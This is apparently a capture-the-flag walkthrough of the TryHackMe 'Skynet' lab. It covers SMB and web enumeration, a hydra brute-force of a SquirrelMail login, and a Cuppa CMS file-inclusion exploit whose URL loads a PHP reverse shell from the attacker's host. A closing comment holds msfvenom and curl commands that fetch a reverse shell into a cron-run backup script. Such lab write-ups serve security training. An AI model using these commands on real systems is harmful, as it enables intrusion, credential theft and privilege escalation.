## Try Hack Me - Skynet

## Information
### Room URL
https://tryhackme.com/r/room/skynet

### Target Machine IP
10.10.13.82

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.4.73.48

## Task 1 - Deploy and compromise the vulnerable machine!

nmap -p- --min-rate 5000 -sV 10.10.13.82

Result:



There is an SMB server running! The following command should give what version it is running

nmap -sC -p 139,445 -sV 10.10.13.82



It does! Samba 4.3.11-Ubuntu

To get more info:

smbmap -H 10.10.13.82



Using this info, it is possible to connect to the "anonymous" disk without permission:

smbclient \\\\10.10.13.82\\anonymous



Upon listing the directories (dir), there is a file "attention.txt" that has certainly got my attention



get attention.txt



Further inspection of the logs folder reveals 3 log files



The command "get < file >" will download the specified file. I did this for all three log files. "log2" and "log3" were empty, but "log1" was of interest:



enum4linux tool might be able to give some more information about the server:

enum4linux 10.10.13.82

From the scan we can see a user login, milesdyson



Another way to get the user info is with "nmap -script=smb-enum-users 10.10.13.82"

It seems that is all we can do with the smb server for now. 

Recall earlier that nmap found a http service running on port 80. Use gobuster to enumerate possible directories on the web server:

gobuster dir -u http://10.10.13.82 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt



Visiting "http://10.10.13.82/squirrelmail" presents us with a login page. Use hydra to crack the login using the information we have but first we need to find out how the request is constructed.



After a few tweaks to the command run it to get the password:

hydra -l milesdyson -P /home/incorgnito/Downloads/log1.txt 10.10.13.82 http-post-form "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user"



Enter the password into the website, and we have access!



The first email titled "Samba password reset" looks interesting



Lets try the password on the samba server

smbclient -U milesdyson \\\\10.10.13.82\\milesdyson

)s{A&2Z=F^n_E.B`



It works!

In the "notes" directory is "important.txt"



The file reads:



gobuster dir -u http://10.10.13.82/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt

Further enumerating the web service using this new directory reveals an admin page



Viewing it in the browser, we can see it is the mentioned CMS



As there is no attack vector for the login, searching Cuppa CMS vulnerabilities lead to https://www.exploit-db.com/exploits/25971

With this knowledge, prepare a php reverse shell. I am going to run it on port 8888

Once the shell is ready, start a python server to transfer the shell

python -m http.server



Also start a nc listener to catch the shell

nc -lnvp 8888



When ready access the exploit URL. This will get the shell from the py server and run it.

http://10.10.13.82/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.73.48:8000/shell.php

The website will hang which is ok because that means the exploit succeded





Running whoami, we can see the account the process is running on



(At this point my machine timed out so from here the new target IP is 10.10.70.49)

After some looking around, the user flag is found



Doing some more investigation of the running cronjobs, there is a backup running every minute



<!-- msfvenom -p cmd/unix/reverse_bash LHOST=10.4.73.48 LPORT=9999 -f raw > revshell.sh

curl --upload-file backup.sh http://10.4.73.48:8000/backup.sh

curl http://10.4.73.48:8000/backup.sh

curl -o backup.sh http://10.4.73.48:8000/revshell.sh -->